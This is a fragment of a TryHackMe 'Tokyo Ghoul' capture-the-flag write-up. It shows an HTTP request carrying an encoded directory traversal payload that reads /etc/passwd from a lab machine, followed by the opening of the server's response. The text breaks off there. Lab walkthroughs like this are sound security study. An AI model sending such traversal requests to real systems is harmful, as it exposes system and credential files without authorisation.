 ![Untitled](TryHackMe%20-%20Tokyo%20Ghoul%20f3445adefbf44ffda5af426f0caa1101/Untitled%207.png)

```html
GET /d1r3c70ry_center/claim/index.php?view=%2e%2e%2F%2e%2e%2F%2e%2e%2F%2e%2e%2F%2e%2e%2F%2e%2e%2F%2e%2e%2F%2e%2e%2F%2e%2e%2F%2e%2e%2F%2e%2e%2Fetc%2Fpasswd HTTP/1.1
Host: 10.10.208.57
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=kq3rait4fvoqd1dcnnsp0jo4v0
Upgrade-Insecure-Requests: 1
```

- Response

```html
HTTP/1.1 200 OK
Date: Tue, 29 Nov 2022 16:51:56 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 2232
Connection: close
Content-Type: text/html; charset=UTF-8

<html>
    <head>
```